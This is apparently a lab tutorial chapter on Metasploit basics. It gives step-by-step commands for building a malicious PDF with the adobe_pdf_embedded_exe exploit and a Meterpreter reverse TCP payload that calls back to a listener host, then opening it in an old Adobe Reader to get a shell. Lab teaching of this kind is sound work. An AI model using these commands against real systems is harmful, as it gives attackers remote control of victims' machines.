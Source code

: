 # Chapter 1.1 - Metasploit Basics

Log on to your Unbuntu VM with **admin/admin**, open a terminal prompt and start the metasploit console:

```code
msfconsole
```

![Screenshot](./images/01_metasploit.jpg)

We're going to create a `malicious PDF` file which contains a meterpreter backdoor that sets up a reverse shell on port 12345. This attack requires an exploit on Adobe PDF, let's have a look which exploits are available within Metasploit to accomplish this.

```code
search type:exploit platform:windows adobe pdf
```

![Screenshot](./images/02_metasploit.jpg)

As you can see these are all pretty old exploits, but they will do for our proof on concept. There are numerous or PDF readers (such as Foxit, Slim PDF, Nitro and others). New vulnerabilities come out every day and this shows how important keeping your 3rd party applications up to date is.

For now we're going to continue with **adobe_pdf_embedded_exe**.

```code
use exploit/windows/fileformat/adobe_pdf_embedded_exe
```

We're going to create a simple windows *reverse TCP* payload that will connect back to our Ubuntu server on *Port 12345*. This payload will be embedded into the pdf.

```code
set payload windows/meterpreter/reverse_tcp
set LHOST 192.168.18.204
set LPORT 12345
exploit
```

![Screenshot](./images/03_metasploit.jpg)

Next step is to set up metasploit to listen to reverse TCP connections on port 12345:

![Screenshot](./images/04_metasploit.jpg)

```code
back
use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
set LHOST 192.168.18.204
set LPORT 12345
run
```

Open a new terminal window on your Ubuntu and copy your "**evil.pdf**" payload to "/temp".

 >**_NOTE:_**  Remember to do this as super user, the root directory requires admin privileges. You can do this by typing "**sudo -i**" and entering your password.

![Screenshot](./images/06_copypayload.jpg)

 ```code
 sudo -i
 cd /root/.msfconsole/local/
 ls -la
 cp evil.pdf /temp
 ```

Now let's pivot to our Windows client and download the malicious PDF, we'll be using WinSCP - to transfer our "evil.pdf" from "/temp" to our windows desktop.

> **_NOTE:_**  Create a new Site in WinSCP, File Protocol = SCP, Port Number =22, Username = admin, Password = admin. In the advanced options you can specify the default starting direcotry, put "/temp" there. Save the connection for later use. Connect to the Ubuntu manchine with WinSCP and download "evil.pdf" to your desktop.

![Screenshot](./images/05_winscp.jpg)

Once the file is copied to your desktop, right-click the evil.pfd file and select open with "Adobe Reader 9.0". Remember we are using an old version of adobe that is still vulnerable for this exploit.

![Screenshot](./images/07_rightclick.jpg)

![Screenshot](./images/8_adobe_1.jpg)

![Screenshot](./images/9_adobe_2.jpg)

![Screenshot](./images/10_session.jpg)
